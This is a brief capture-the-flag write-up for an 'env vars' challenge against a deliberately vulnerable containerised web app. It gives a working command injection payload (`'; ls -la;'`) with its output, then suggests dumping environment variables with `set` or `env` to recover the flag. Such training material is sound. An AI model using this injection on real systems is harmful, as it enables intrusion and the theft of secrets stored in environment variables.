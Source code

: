 # env vars

## Description
This vulnerable web application is packaged as a docker image and executed as an Amazon ECS Task. The web app attempts to provide an 'encoded' value for text entered in a text entry field on the page.

## Solution
The challenge is to leverage the command injection vulnerability discovered in the `Spiders Web -> Source Code` exercise to find the flag using system environment variables. If you have solved "Source Code" this can be trivially accomplished:

1. Verify the command injection functions by entering: `'; ls -la;'`  
Service Returns:  
 ```ls -la
total 24
drwxr-xr-x 1 root root 4096 Oct 27 02:34 .
drwxr-xr-x 1 root root 4096 Oct 14 03:58 ..
-rw-r--r-- 1 root root  437 Oct 14 03:21 Dockerfile
-rwxr-xr-x 1 root root  643 Oct 14 03:24 app.py
-rw-r--r-- 1 root root 1105 Oct 14 03:58 app.pyc
drwxr-xr-x 2 root root 4096 Oct 13 21:12 templates
```

2. Explore environment variables using linux shell commands: `set` or `env` worked for me  
Service Returns: Necessary information to obtain a flag
